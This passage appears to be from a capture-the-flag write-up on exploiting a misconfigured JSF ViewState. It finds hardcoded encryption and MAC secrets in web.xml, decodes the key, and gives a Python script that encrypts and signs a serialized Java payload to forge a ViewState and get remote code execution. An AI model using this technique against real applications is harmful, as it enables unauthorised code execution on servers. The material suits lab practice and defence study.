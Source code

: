 ```xml
<param-value>500</param-value>
</context-param>
<listener>
<listener-class>org.apache.myfaces.webapp.StartupServletContextListener</listener-class>
</listener>
</web-app>
```

The thing I noted was the mentioning of a `SECRET`, `MAC_SECRET` and `MAC_ALGORITHM`. When searching for exploits for JSF, there were a lot of results that mentioned Deserialisation.

{% embed url="https://www.alphabot.com/security/blog/2017/java/Misconfigured-JSF-ViewStates-can-lead-to-severe-RCE-vulnerabilities.html" %}

Based on the above article, it exploits the serialised Java object named the `ViewState`. In the case for this machine, it is **user-controlled** since it appeared in the POST parameters for the subscription.

So deserialisation is the RCE vector for the box!

### Exploit Deserialistaion -> RCE

For JSF, there is default encryption using DES. Since there were some HMAC parameters given to me, I'm assuming I have to **encrypt and sign** the payload.

The secret decoded returns this:

```
$ echo SnNGOTg3Ni0= | base64 -d
JsF9876-
```

Firstly, I had to encrypt and then sign this. I used this repository's helper functions to do so:

{% embed url="https://github.com/Keramas/Lord_of_Cereal" %}

Here's my code:

```python
import base64
from hashlib import sha1
import hmac
import pyDes
import binascii
from urllib import parse

def hmac_signature(secret, string):
    hashed = hmac.new(secret,string,sha1)
    return hashed.digest()

def encryptDES_ECB(data, key):
    k = pyDes.des(key, pyDes.ECB, IV=None, pad=None, padmode=pyDes.PAD_PKCS5)
    d = k.encrypt(data)
    assert k.decrypt(d, padmode=pyDes.PAD_PKCS5) == data
    return d

def build_payload(payload, secret_key):
    cipher = encryptDES_ECB(payload, secret_key)
    hmac_digest = hmac_signature(secret_key, cipher)
    b64_encrypted_payload = base64.b64encode(cipher + hmac_digest)
    return parse.quote_plus(b64_encrypted_payload)

with open("dump_payload", "rb") as f:
        payload = f.read()
        f.close()
print(build_payload(payload, b'JsF9876-'))
```
